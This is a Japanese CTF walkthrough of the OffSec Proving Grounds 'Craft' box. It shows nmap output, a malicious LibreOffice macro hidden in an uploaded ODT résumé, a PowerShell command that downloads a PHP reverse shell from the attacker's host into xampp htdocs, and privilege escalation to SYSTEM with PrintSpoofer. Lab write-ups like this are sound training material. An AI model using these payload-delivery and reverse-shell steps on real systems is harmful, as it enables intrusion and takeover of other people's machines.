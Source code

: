 # Enumeration

## nmap

```
# Nmap 7.94SVN scan initiated Thu Jul  4 22:56:55 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/_full_tcp_nmap.txt -oX /home/hatto/CTF/Offsec/ProvinGrounds/Craft/results/192.168.162.169/scans/xml/_full_tcp_nmap.xml 192.168.162.169
Nmap scan report for 192.168.162.169
Host is up, received user-set (0.097s latency).
Scanned at 2024-07-04 22:56:55 JST for 136s
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON          VERSION
80/tcp open  http    syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-title: Craft
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=7/4%OT=80%CT=%CU=%PV=Y%DS=4%DC=T%G=N%TM=6686AAAF%P=x86_64-pc-linux-gnu)
SEQ(SP=FF%GCD=1%ISR=10A%TS=U)
SEQ(SP=FF%GCD=1%ISR=10A%TI=I%TS=U)
OPS(O1=M551NW8NNS%O2=M551NW8NNS%O3=M551NW8%O4=M551NW8NNS%O5=M551NW8NNS%O6=M551NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=N)

Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   96.87 ms 192.168.45.1
2   96.83 ms 192.168.45.254
3   97.18 ms 192.168.251.1
4   97.31 ms 192.168.162.169

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jul  4 22:59:11 2024 -- 1 IP address (1 host up) scanned in 135.76 seconds
```

Windowsにしては珍しく80番ポートしか開いていいなかった。

とりあえず、ウェブサイトにアクセスしてみる。

![](screenshot/image-20240706124650081.png)

どこかの会社のホームページっぽい

ページを下にスクロールしていくと履歴書をアップロードするフォームを見つけた。

![](screenshot/image-20240706125119241.png)

適当なファイルをアップロードしてみる。

![](screenshot/image-20240706125451544.png)

`ODT`ファイルのみを受け付けているらしい。ODTファイルをアップロードする

![](screenshot/image-20240706125704873.png)

正常にアップロードできた。

googleで `odt file exploit` で調べてみると`LibreOffice`と`OpenOffice`にRCEの脆弱性が発見されたという記事を見つけた。

[Severe RCE Flaw Disclosed in Popular LibreOffice and OpenOffice Software](https://thehackernews.com/2019/02/hacking-libreoffice-openoffice.html)

どうやらODTファイルを開く際のイベントに悪意のあるマクロを設定することによりRCEが発火するらしい

# Exploit

この脆弱性を悪用する以下のPoCを見つけた

[macro-generator](https://github.com/jotyGill/macro-generator)

まず、リバースシェルを作成する

![](screenshot/image-20240706130935760.png)

ペイロードを配信するhttpサーバーを起動する

<img src="screenshot/image-20240706131112160.png" style="zoom:200%;" />

Microsoft Office および Libre Office に貼り付けるマクロを生成する

```
python3 macro-generator.py --host 192.168.45.171 --port 4444 -r ':8000/win/rshell.exe'
```

LibreOffice用のマクロを使用する

![](screenshot/image-20240706132033199.png)

生成されたマクロをodtファイルに適用する

LibreOfficeを起動して ツール→マクロ→マクロの編集 に移動する

![](screenshot/image-20240706132951662.png)

矢印がさしているボタンをからマクロの管理ページがひらくので新規作成を押し、適当な名前で保存する

![](screenshot/image-20240706133137216.png)

以下のようになっていればOK

![](screenshot/image-20240706133253259.png)

生成したマクロを貼り付ける

![](screenshot/image-20240706133504414.png)

つづいてマクロをイベントに割り当てる。ツール→カスタマイズからイベントタグに移動し

![](screenshot/image-20240706133853426.png)

矢印の順番にクリックし作成したマクロを選択肢OKを押す

![](screenshot/image-20240706133933495.png)

シェルを受け取る待ち受けを設定する

<img src="screenshot/image-20240706134115879.png" style="zoom:200%;" />

作成したodtファイルをフォームにアップロードしてしばらく待つとhttpリクエストが届き、`thecybergeek`としてのシェルを取得できた。

![](screenshot/image-20240706134943406.png)

# Privilege Escalation

## apache

`C:\Users` フォルダを見てみると管理者以外に`apache`というユーザーがいることが分かるので横移動する必要がありそう

![](screenshot/image-20240706135628943.png)

Cドライブ直下にウェブサイトやウェブアプリケーションを開発・運用するための環境を簡単に構築できるソフトウェアである`xampp`というソフトウェアのフォルダを見つけた

![](screenshot/image-20240706140114007.png)

xamppディレクトリ内を探索しているとWebサイトで動いていたであろう`upload.php`ファイルなどが見つかった。

![](screenshot/image-20240706140845156.png)

`icacls` でアクセス権限を調べてみるとどのユーザにも書き込み権限、ファイルの追加権限が付与されているのでphp-reverse-shellをアップロードすることでユーザー`apache`に横移動できる可能性がある。

![](screenshot/image-20240706141251758.png)

[Online Reverse Shell Generator](https://www.revshells.com/) で作成したWindowsようにphpリバースシェルを作成して`C:\xampp\htdocs` にアップロードする

pythonでサーバーを起動して以下のコマンドからファイルをダウンロードする

```
(New-Object Net.WebClient).DownloadFile("http://192.168.45.171:8000/rev.php","c:\xampp\htdocs\rev.php")
```

待ち受けようのリスナー起動して ウェブサイトから `rev.php` にアクセスする

![](screenshot/image-20240706142938905.png)

`apache` として横移動に成功した

## Administrator

`whoami /priv` で権限の確認をしてみると `SeImpersonatePrivilege` が有効になっていた。

![](screenshot/image-20240706143106284.png)

この権限は`JuicyPotato` や `PrintSpoofer` を使用することで `DCOM/NTLM` リフレクションを悪用を介して `SeImpersonate` または `SeAssignPrimaryToken` 権限を悪用し権限の昇格を行える可能性がある。

必要になる`nc.exe`と`PrintSpoofer.exe`をダウンロードする

![](screenshot/image-20240706144148786.png)

![](screenshot/image-20240706144601721.png)

攻撃側マシンでリスナー設定し以下のように `PrintSpoofer` を実行する

![](screenshot/image-20240706144736311.png)

`nt authority\system`  としてシェルを獲得できた

![](screenshot/image-20240706144852639.png)

`local.txt` を獲得

![](screenshot/image-20240706145130589.png)

`proof.txt` を獲得

![](screenshot/image-20240706145012641.png)





















